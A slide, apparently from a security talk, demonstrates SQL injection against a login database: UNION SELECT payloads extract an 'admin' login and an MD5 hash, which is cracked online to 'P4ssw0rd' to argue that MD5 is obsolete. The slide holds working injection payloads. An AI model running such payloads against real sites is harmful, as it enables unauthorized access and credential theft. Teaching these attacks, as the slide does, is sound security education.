

# Excellent, lets break in to the admin console
...UNION SELECT 1, login, 3, 4 from users
reveals a login of "admin"
... UNION SELECT 1, password, 3, 4 from users
reveals a password hash of
8efe310f9ab3efeae8d410a8e0166eb2
which after cracking reveals the password is:
P4ssw0rd
I used http://www.md5decrypter.co.uk/ and it took seconds.  moral of the story: MD5 is dead